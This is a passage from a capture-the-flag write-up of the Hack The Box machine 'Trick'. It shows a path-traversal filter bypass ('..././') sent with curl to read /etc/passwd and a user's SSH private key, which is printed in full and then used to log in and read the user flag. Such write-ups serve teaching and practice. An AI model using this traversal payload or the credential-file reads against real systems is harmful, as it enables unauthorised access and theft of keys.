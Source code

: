 ```bash
$ curl "preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd"
root:x:0:0:root:/root:/bin/bash
.....
michael:x:1001:1001::/home/michael:/bin/bash
```

We see that there is a user called michael, so we can try to see if he has an id_rsa:

```bash
$ curl "preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

We save this key and then use it to log in via ssh. 

```bash
$ chmod 600 id_rsa                                                                            
$ ssh michael@10.10.11.166 -i id_rsa
The authenticity of host '10.10.11.166 (10.10.11.166)' can't be established.
ED25519 key fingerprint is SHA256:CUKzxire1i5wxTO1zNuBswEtE0u/RyyjZ+v07fOUuYY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.166' (ED25519) to the list of known hosts.
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ cat user.txt
66****************************7b
```
